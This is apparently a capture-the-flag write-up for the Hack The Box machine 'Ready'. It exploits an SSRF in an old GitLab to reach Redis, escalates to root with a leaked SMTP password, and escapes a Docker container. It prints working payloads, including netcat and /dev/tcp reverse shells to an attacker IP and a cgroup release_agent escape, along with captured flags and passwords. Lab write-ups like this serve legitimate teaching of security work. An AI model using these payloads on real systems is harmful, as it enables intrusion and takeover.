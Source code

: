 # Ready

export IP=10.10.10.220

# Solution

Starting with an nmap scan
```
cmd: nmap -sC -sV -oN nmap/initial $IP

22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.220:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
```


Visiting the page on port 5080 we got a gitlab instance running with version <b> GitLab Community Edition 11.4.7 </b> <br>

The LFI (and RCE) for version 12.8.7 does not work (error moving issue) <br>

By exploring the projects we can see some entries:
- ready-channel (user: dude)
- Some weird projects (need to create a repo or import from... and none works)


After a look around, i went search for a vulnerability since it is an old version and found a POC where the database (redis) is abused using SSRF by using the git protocol to abuse the "import" method <br>

Found an exploit but it does not give me the reverse shell, i'll try it manually with burp! <br>


Just need to go to <b> new project -> import -> from URL -> fill the fields (intercept) -> change the url to the payload </b>

```
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/
multi

sadd resque:gitlab:queues system_hook_push

lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'| nc 10.10.14.110 1414 -e /bin/sh \').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"

exec
exec
exec
```

Need to URL-enconde the payload
```
git%3A%2F%2F%5B0%3A0%3A0%3A0%3A0%3Affff%3A127.0.0.1%5D%3A6379%2F%0Amulti%0A%0Asadd%20resque%3Agitlab%3Aqueues%20system_hook_push%0A%0Alpush%20resque%3Agitlab%3Aqueue%3Asystem_hook_push%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class_eval%5C%22%2C%5C%22open%28%5C%27%7C%20nc%2010.10.14.253%201414%20-e%20%2Fbin%2Fsh%20%5C%27%29.read%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system_hook_push%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created_at%5C%22%3A1513714403.8122594%2C%5C%22enqueued_at%5C%22%3A1513714403.8129568%7D%22%0A%0Aexec%0Aexec%0Aexec%0A%20exec
```

And voila, manually it works perfectly !!
```
whoami && id

git
uid=998(git) gid=998(git) groups=998(git)
```

Just checked some folders (backups, home, etc.) and found that the user flag is readable by the git group 

```
cmd: ls -la /home/

drwxr-xr-x 2 dude dude 4096 Dec  7 16:58 dude

cmd: ls -la /home/dude
-r--r----- 1 dude git    33 Dec  2 10:46 user.txt

cat /home/dude/user.txt
FLAG: e1e30b052b6ec0670698805d745e7682
```

Running a linpeas as <b> git </b> we can extract
```
[+] Is this a virtual machine? ..... Yes (docker)
[+] Is this a container? ........... Looks like we're in a Docker container

/var/log/gitlab/

/opt/gitlab/embedded/lib/ruby/gems/2.4.0/gems/chef-13.6.4/spec/data/cookbooks/openldap/files/default/.ssh/id_rsa

/opt/gitlab/embedded/lib/ruby/gems/2.4.0/gems/chef-13.6.4/spec/data/dsc_lcm.pfx

/home/dude/.bash_history
-rw-r----- 1 root git 601 Jul  8 08:53 /var/opt/gitlab/gitaly/config.toml
-rw-r----- 1 root git 1064 Jul  8 08:52 /var/opt/gitlab/gitlab-shell/config.yml
-rw-r----- 1 root git 52 Jul  8 08:53 /var/opt/gitlab/gitlab-workhorse/config.toml
-rw-r----- 1 root git 17681 Jul  8 09:02 /var/opt/gitlab/gitlab-rails/etc/gitlab.yml
-rw-r----- 1 root git 527 Jul  8 08:52 /var/opt/gitlab/gitlab-rails/etc/database.yml

-rw-r--r-- 1 root root 674 Nov 20  2018 /opt/gitlab/embedded/lib/ruby/gems/2.4.0/gems/flipper-0.13.0/docker-compose.yml
-rw-r--r-- 1 root root 418 Nov 20  2018 /opt/gitlab/embedded/lib/ruby/gems/2.4.0/gems/fog-google-1.7.1/ci/docker-image/Dockerfile
-rw-r--r-- 1 root root 430 Nov 20  2018 /opt/gitlab/embedded/lib/ruby/gems/2.4.0/gems/sidekiq-cron-0.6.0/docker-compose.yml
-rw-r--r-- 1 root root 38 Nov 20  2018 /opt/gitlab/embedded/service/gitlab-rails/docker-compose.yml

/opt/backup/docker-compose.yml

/var/log/gitlab/gitaly/current
/var/log/gitlab/gitlab-workhorse/current
/var/log/gitlab/sidekiq/current
/var/log/gitlab/gitlab-rails/application.log
/var/log/gitlab/gitlab-rails/sidekiq_exporter.log
/var/log/gitlab/gitlab-rails/production_json.log
/var/log/gitlab/gitlab-rails/production.log
/var/log/gitlab/gitlab-monitor/current

Writable: /var/log/gitlab/gitlab-shell/gitlab-shell.log.7.gz
Writable: /var/log/gitlab/gitlab-shell/gitlab-shell.log
Writable: /var/log/gitlab/gitlab-shell/gitlab-shell.log.1.gz
Writable: /var/log/gitlab/gitlab-rails/production_json.log.1.gz
Writable: /var/log/gitlab/gitlab-rails/production_json.log.2.gz
Writable: /var/log/gitlab/gitlab-rails/production.log.3.gz
Writable: /var/log/gitlab/unicorn/unicorn_stderr.log.4.gz
Writable: /var/log/gitlab/unicorn/unicorn_stderr.log.2.gz
Writable: /var/log/gitlab/unicorn/unicorn_stdout.log.7.gz

```

Carefully analyzing there are some things that can be extracted from multiple files
```
File: /opt/gitlab/embedded/lib/ruby/gems/2.4.0/gems/chef-13.6.4/spec/data/cookbooks/openldap/files/default/.ssh/id_rsa
Content: FAKE KEY <- very funny, lul

File: /var/opt/gitlab/gitlab-rails/etc/database.yml
Content: Postgresql, user: gitlab, password: <empty>
Result: unable to use postgres instance

File: /opt/backup/docker-compose.yml
Content: './root_pass:/root_pass', 
/root_pass Content: YG65407Bjqvv9A0a8Tm_7w
Result: Does not work (dude and root user acc)
```

Since linpeas did not found nothing more than that it is running in a docker container, lets fiddle around to check if we can find something... <br>

One thing that i notice is that linpeas found stuff in opt, but did not really fuzzed everything out
```
cmd: ls -la /opt/*
result: 
/opt/backup:
total 112
drwxr-xr-x 2 root root  4096 Dec  7 09:25 .
drwxr-xr-x 1 root root  4096 Dec  1 16:23 ..
-rw-r--r-- 1 root root   872 Dec  7 09:25 docker-compose.yml
-rw-r--r-- 1 root root 15092 Dec  1 16:23 gitlab-secrets.json
-rw-r--r-- 1 root root 79639 Dec  1 19:20 gitlab.rb

/opt/gitlab:
total 2896
drwxr-xr-x 1 root root    4096 Dec  1 12:41 .
drwxr-xr-x 1 root root    4096 Dec  1 16:23 ..
-rw-r--r-- 1 root root 2665359 Nov 20  2018 LICENSE
drwxr-xr-x 2 root root   36864 Nov 20  2018 LICENSES
drwxr-xr-x 2 root root    4096 Nov 20  2018 bin
-rw-r--r-- 1 root root  167336 Nov 20  2018 dependency_licenses.json
drwxr-xr-x 1 root root    4096 Dec 23 15:59 embedded
drwxr-xr-x 1 root root    4096 Dec 23 16:00 etc
drwxr-xr-x 1 root root    4096 Dec 23 15:59 init
drwxr-xr-x 1 root root    4096 Dec 23 16:00 service
drwxr-xr-x 1 root root    4096 Dec  1 12:42 sv
drwxr-xr-x 3 root root    4096 Dec  1 12:41 var
-rw-r--r-- 1 root root   25350 Nov 20  2018 version-manifest.json
-rw-r--r-- 1 root root   11488 Nov 20  2018 version-manifest.txt
```

From the gilab.rb file we can check some things
```
cmd: cat gitlab.rb | grep password

gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
```
That is the only uncommented line that is returned from grep which means that it might be active... <br>

Trying it out as both users passwords (dude and root) reveals that it belongs to root...
```
cmd: su root
Password: wW59U!ZKMbG9+*#h

whoami && id
root
uid=0(root) gid=0(root) groups=0(root)
```

The flag is not at the common /root/ folder lets try to find it
```
cmd: find / -type f -name "root.txt"
results: <empty>
```

Well lets try to escape the docker container because we have the root acc for it (and is required that we have it) <br>

The exploit used is (https://book.hacktricks.xyz/linux-unix/privilege-escalation/escaping-from-a-docker-container)
```
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
 
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

#Reverse shell
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/10.10.14.253/1415 0>&1" >> /cmd
chmod a+x /cmd
 
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
head /output
```

And voila, we have privesc
```
cmd: uname -a (docker)
result: Linux gitlab.example.com 5.4.0-40-generic #44-Ubuntu SMP Tue Jun 23 00:01:04 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux

cmd: uname -a (host)
result: Linux ready 5.4.0-40-generic #44-Ubuntu SMP Tue Jun 23 00:01:04 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux

cmd: cat /root/root.txt
FLAG: b7f98681505cd39066f67147b103c2b3
```
A way simpler exploit would be just to mount the filesystem at /dev/sda2
```
mkdir ~/tmp
mount /dev/sda2 ~/tmp
cat ~/tmp/root/root.txt
FLAG: b7f98681505cd39066f67147b103c2b3
```